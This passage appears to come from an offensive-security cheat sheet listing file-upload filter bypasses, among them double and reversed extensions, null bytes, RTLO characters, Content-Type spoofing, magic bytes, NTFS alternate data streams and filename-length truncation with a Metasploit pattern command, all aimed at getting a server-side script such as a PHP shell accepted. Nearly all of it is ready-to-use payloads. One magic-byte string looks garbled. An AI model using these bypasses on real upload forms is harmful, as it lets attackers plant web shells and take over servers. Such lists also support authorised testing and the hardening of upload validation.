 ## Upload tricks
* Use double extensions : `.jpg.php, .png.php5`
* Use reverse double extension (useful to exploit Apache misconfigurations where anything with extension .php, but not necessarily ending in .php will execute code): `.php.jpg`
* Random uppercase and lowercase : `.pHp, .pHP5, .PhAr`
* Null byte (works well against `pathinfo())`
  * `.php%00.gif`
  * `.php\x00.gif`
  * `.php%00.png`
  * `.php\x00.png`
  * `.php%00.jpg`
  * `.php\x00.jpg`
* Special characters
  * Multiple dots : `file.php......` , in Windows when a file is created with dots at the end those will be removed.
  * Whitespace and new line characters
      * `file.php%20`
      * `file.php%0d%0a.jpg`
      * `file.php%0a`
  * Right to Left Override (RTLO): `name.%E2%80%AEphp.jpg` will became `name.gpj.php`.
  * Slash: `file.php/`, `file.php.\`, `file.j\sp`, `file.j/sp`
  * Multiple special characters: `file.jsp/././././.`
* Mime type, change `Content-Type : application/x-php` or `Content-Type : application/octet-stream` to `Content-Type : image/gif`
  * `Content-Type : image/gif`
  * `Content-Type : image/png`
  * `Content-Type : image/jpeg`
  * Content-Type wordlist: [SecLists/content-type.txt](https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt)
  * Set the Content-Type twice: once for unallowed type and once for allowed.
* [Magic Bytes](https://en.wikipedia.org/wiki/List_of_file_signatures)
  * Sometimes applications identify file types based on their first signature bytes. Adding/replacing them in a file might trick the application.
    * PNG: `\x89PNG\r\n\x1a\n\0\0\0\rIHDR\0\0\x03H\0\xs0\x03[`
    * JPG: `\xff\xd8\xff`
    * GIF: `GIF87a` OR `GIF8;`
  * Shell can also be added in the metadata
* Using NTFS alternate data stream (ADS) in Windows. In this case, a colon character ":" will be inserted after a forbidden extension and before a permitted one. As a result, an empty file with the forbidden extension will be created on the server (e.g. "`file.asax:.jpg`"). This file might be edited later using other techniques such as using its short filename. The "::$data" pattern can also be used to create non-empty files. Therefore, adding a dot character after this pattern might also be useful to bypass further restrictions (.e.g. "`file.asp::$data.`")

* Try to break the filename limits. The valid extension gets cut off. And the malicious PHP gets left. AAA<--SNIP-->AAA.php
```bash
# Linux maximum 255 bytes
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 255
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4 # minus 4 here and adding .png
# Upload the file and check response how many characters it alllows. Let's say 236
python -c 'print "A" * 232'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
# Make the payload
AAA<--SNIP 232 A-->AAA.php.png

```
